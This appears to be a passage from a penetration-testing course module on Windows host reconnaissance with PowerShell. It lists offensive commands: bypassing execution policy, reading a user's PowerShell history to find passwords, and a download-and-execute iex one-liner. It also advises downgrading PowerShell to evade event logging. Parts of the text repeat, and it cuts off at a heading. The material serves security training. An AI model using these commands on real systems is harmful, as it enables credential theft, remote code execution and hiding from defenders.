 The commands above will give us a quick initial picture of the state the host is in, as well as some basic networking and domain information. We can cover the information above with one command [systeminfo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo).

#### Systeminfo

![image](https://academy.hackthebox.com/storage/modules/143/systeminfo.png)


## Harnessing PowerShell

PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.

Harnessing PowerShell
PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules we can use on an engagement to recon the host and network and send and receive files.

Let's look at a few of the ways PowerShell can help us.
```powershell


Cmd-Let	Description

Get-Module	Lists available modules loaded for use.


Get-ExecutionPolicy -List	  Will print the execution policy settings for each scope on a host.


Set-ExecutionPolicy Bypass -Scope Process	    This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.


Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt	                 With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.

Get-ChildItem Env: | ft Key,Value	                              Return environment values such as key paths, users, computer information, etc.

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"


We have performed basic enumeration of the host. Now, let's discuss a few operational security tactics.

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage. Below is an example of downgrading Powershell.

Downgrade Powershell
  Downgrade Powershell
```